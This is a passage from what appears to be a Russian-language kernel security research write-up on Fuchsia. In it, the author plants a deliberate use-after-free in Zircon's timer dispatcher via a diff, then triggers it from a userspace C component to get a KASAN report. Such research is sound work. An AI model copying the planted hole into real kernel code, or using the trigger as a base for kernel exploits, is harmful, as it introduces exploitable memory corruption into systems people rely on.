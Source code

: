 ```diff
diff --git a/zircon/kernel/object/timer_dispatcher.cc b/zircon/kernel/object/timer_dispatcher.cc
index a83b750ad4a..14535e23ca9 100644
--- a/zircon/kernel/object/timer_dispatcher.cc
+++ b/zircon/kernel/object/timer_dispatcher.cc
@@ -184,2 +184,4 @@ void TimerDispatcher::OnTimerFired() {
 
+  bool uaf = false;
+
   {
@@ -187,2 +189,6 @@ void TimerDispatcher::OnTimerFired() {
 
+    if (deadline_ % 100000 == 31337) {
+      uaf = true;
+    }
+
     if (cancel_pending_) {
@@ -210,3 +216,3 @@ void TimerDispatcher::OnTimerFired() {
   // ourselves.
-  if (Release())
+  if (Release() || uaf)
     delete this;
```

Если таймер выставляется на задержку, значение которой заканчивается цифрами `31337`, то память объекта `TimerDispatcher` освобождается вне зависимости от счетчика ссылок (refcount). Я захотел спровоцировать эту ядерную ошибку из моего компонента в пользовательском пространстве, чтобы увидеть, как ядро уходит в отказ и отображает отчет KASAN. Для этого я добавил следующий код в мой компонент `a13x-pwns-fuchsia`:

```c
  zx_status_t status;
  zx_handle_t timer;
  zx_time_t deadline;

  status = zx_timer_create(ZX_TIMER_SLACK_LATE, ZX_CLOCK_MONOTONIC, &timer);
  if (status != ZX_OK) {
    printf("[-] creating timer failed\n");
    return 1;
  }

  printf("[+] timer is created\n");

  deadline = zx_deadline_after(ZX_MSEC(500));
  deadline = deadline - deadline % 100000 + 31337;
  status = zx_timer_set(timer, deadline, 0);
  if (status != ZX_OK) {
    printf("[-] setting timer failed\n");
    return 1;
  }

  printf("[+] timer is set with deadline %ld\n", deadline);
  fflush(stdout);
  zx_nanosleep(zx_deadline_after(ZX_MSEC(800))); // timer fired

  zx_timer_cancel(timer); // hit UAF
```


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4